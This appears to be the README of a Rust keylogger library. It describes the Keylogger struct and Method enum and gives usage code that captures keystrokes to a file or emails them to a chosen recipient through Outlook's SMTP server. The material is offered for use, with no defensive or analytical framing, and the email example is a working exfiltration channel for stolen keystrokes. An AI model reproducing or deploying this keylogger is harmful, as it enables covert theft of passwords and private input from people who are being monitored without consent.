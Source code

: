 # Keylogger in Rust *(The MD File)*

## Getting Started
The Rust Keylogger depends on two objecs, the `Keylogger` struct, and the `Method` enum; which is used to define how to handle a buffer; the buffer being collected keys that when the max is hit, the keys are then passed to a handle function from the `Handle` trait.

## Examples
Initializing a keylogger to write the keystrokes onto a file
```rust
use std::io::Result;
use keylogger::{
    Keylogger,
    Method
};

fn main() -> Result<()> {
    let mut keylogger = Keylogger::new(
        Method::File {path : "path/to/log.txt"}
    );
    keylogger.start();
}
```

Initializing a keylogger to send the keystrokes through email; keep in mind that the email **MUST** be an **outlook** email, since the server being used is *smtp-mail.outlook.com*

```rust
use std::io::Result;
use keylogger::{
    Keylogger,
    Method
};

fn main() -> Result<()> {
    let mut keylogger = Keylogger::new(
        Method::Email {
                email : "recipient_email@outlook.com",
             password : "your_outlook_password",
            recipient : "email_to_send_the_keystrokes_to@example.com"
        }
    );
    keylogger.start();
}
```
